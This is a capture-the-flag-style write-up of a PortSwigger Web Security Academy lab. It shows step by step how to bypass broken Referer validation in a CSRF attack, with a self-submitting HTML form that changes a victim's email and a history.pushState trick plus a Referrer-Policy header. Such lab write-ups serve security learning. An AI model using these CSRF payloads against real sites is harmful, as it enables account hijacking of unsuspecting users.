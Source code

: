 
# CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses



![img](images/CSRF%20with%20broken%20Referer%20validation/1.png)

---------------------------------------------

There is a function to update the email:



![img](images/CSRF%20with%20broken%20Referer%20validation/2.png)


It is a POST request:



![img](images/CSRF%20with%20broken%20Referer%20validation/3.png)


This is the CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

When opened, it returns this error:



![img](images/CSRF%20with%20broken%20Referer%20validation/4.png)


This is because the “Referer” HTTP header contains the domain of the exploit server:



![img](images/CSRF%20with%20broken%20Referer%20validation/5.png)



But we can change the domain of Referer to anything as long as the domain is included in that value:

```
http://attacker-website.com/csrf-attack?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/
```



![img](images/CSRF%20with%20broken%20Referer%20validation/6.png)



It is necessary to update “history.pushState” in the CSRF PoC and add the culnerable domain as a parameter of the url:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test3&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



![img](images/CSRF%20with%20broken%20Referer%20validation/7.png)


It is also necessary to send a “Referrer-Policy” value of “unsafe-url” in the Head section:

```
Referrer-Policy: unsafe-url
```



![img](images/CSRF%20with%20broken%20Referer%20validation/8.png)